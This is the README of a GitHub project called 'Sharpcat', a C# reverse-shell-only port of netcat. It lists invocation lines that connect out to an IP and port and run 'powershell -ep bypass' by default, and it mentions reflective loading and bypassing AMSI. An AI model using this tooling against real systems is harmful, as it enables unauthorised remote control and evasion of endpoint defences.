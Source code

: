 # Sharpcat

A port of classic netcat to C#

This is my first attempt at writing C# stuff, so if you thing this code is bad, I am open to constructive improvement suggestions.

This is a reverse shell only netcat and as it is written in C#, it can be loaded reflectively.
It is based on the netcat windows code and I ported the do_exec.c file to C# as best as I could.

You can call Sharpcat in a few different ways:

+ `Sharpcat`, no parameters, use the default IP address, port number and command (`powershell -ep bypass`)
+ `Sharpcat IPaddress Port`, make a reverse connection to IPaddress and port, run the `powershell -ep bypass` as shell
+ `Sharpcat IPadress Port "command with parameters"`, make a reverse connection to IPaddress and port, run the command (e.g. "cmd.exe")

The bulk of it all is in Exec.cs, it is a shameless port of the do_exec.c from netcat. The command will be started as a sub process,
with stdin, stdout and stderr redirected through a pipe to Sharpcat. Sharpcat will then tunnel the pipe through the network socket to the
remote end. This remote end could be a netcat or something else.

Not much more to it. If you want to bypass AMSI and other stuff, you can use a Powershell based reflective loader (left as an exercise for
the reader).

That is more or less it...

TheArt42
